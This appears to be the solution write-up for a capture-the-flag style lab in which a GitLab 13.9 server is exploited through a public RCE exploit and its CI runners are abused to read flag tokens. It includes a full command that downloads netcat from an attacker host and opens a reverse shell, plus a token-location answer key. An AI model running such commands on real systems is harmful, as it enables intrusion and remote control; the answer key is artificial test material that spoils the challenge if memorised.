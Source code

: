 # Runaway Solution

## Adding regular user account

The RCE exploit requires an authenticated account to work. As such, auto-registration is turned on and allows users to request their own accounts.

1. On the main gitlab login page register for a user account
2. Log into the system with the gitlab account

## RCE Exploit for Admin creds

1. From the GitLab login page request a user account
2. Log into the server as the user
3. Discover that the gitlab server is out of date (gitlab.challenge.us/help)
4. Find RCE for gitlab 13.9 (https://www.exploit-db.com/exploits/49944)
5. Download the exploit code
6. While trying to get the exploit to work host the file `/usr/bin/nc.traditional` on a python web server: `cp /usr/bin/nc.traditional /tmp && cd /tmp && python3 -m http.server`
7. Startup a nc listener (nc -n -vv -l -p 12345)
8. Run the exploit (python3 49944.py -u user -p pass@1 -c 'curl KALI_IP:8000/nc -o /var/tmp/nc && chmod +x /var/tmp/nc && /var/tmp/nc -e /bin/bash KALI_IP 12345' -t http://GITLAB_IP)
    * exploit still requires manual username and password entry for some reason
9. Through manual enumeration find gitlab root creds in /opt

## Creating a project

Using the normal user account you created in the previous step, log back into gitlab and create a new project

1. Click the green button that says: "New Project"
2. Choose "Create from Template"
3. Scroll to the bottom and choose: "Sample Gitlab Project" by clicking on the green button that says: "Use Template"
4. Template options:  
    * Project Name: Recon
    * Project Slug: Recon
    * Visibility Level: Public
5. CLick the "Create Project" button; This action will take some time while the project is created
6. Once the project is active click on the "Web IDE" button and create a new file called .gitlab-ci.yml. This is an example of a build file
```
stages:
  - test

Windows Test:
    stage: test
    script:
      - Write-Output "Hello World"

Linux Test:
    stage: test
    script:
      - echo "Hello World!"
````  

NOTE: There is a mixture of Windows and Linux hosts in the environment, so the job above will fail regardless of which runner is selected.

7. Save the changes by committing the file to the master branch

## Host Discovery

Once you have a project setup you can leverage the .gitlab-ci.yml file to probe the runners for tokens. By default any job will launch on any available runner.

To ensure we're hitting each runner

1. Log into the gitlab server as the root user and click on the wrench icon in the menu to enter the administration area
2. On the left side click on Overview -> Runners 
3. Pick a runner from the list and then click on the pencil icon to the left to edit the runner
4. Scroll to the bottom to the section where it says: "Project"
5. Select the project that was created above and tag the runner as only to be able to run to that particular project
6. Log out and log back in as the regular user account you created
7. Go to your project and modify the .gitlab-cl.yml file created in the previous step to include some basic bash/powershell scripts to probe the system.
8. Kick off your project through the CI build process. You should be able to see the results of the script you created. 

Token Location Reference: 
```
Runner-1 /home/user/token.txt
Runner-2 /opt/token.txt
Runner-3 C:\Users\User\Desktop\token.txt
Runner-4 C:\Users\Public\Documents\token.txt
Runner-5 C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\token.txt
```

## Host Table
```
runner-1 -> Ubuntu 20.04  
runner-2 -> Ubuntu 20.04  
runner-3 -> Windows 10 Workstation  
runner-4 -> Windows 2019 Server  
runner-5 -> Windows 2019 Server  
```

## Submission

The tokens are generated by infinity and will change with each challenge iteration.
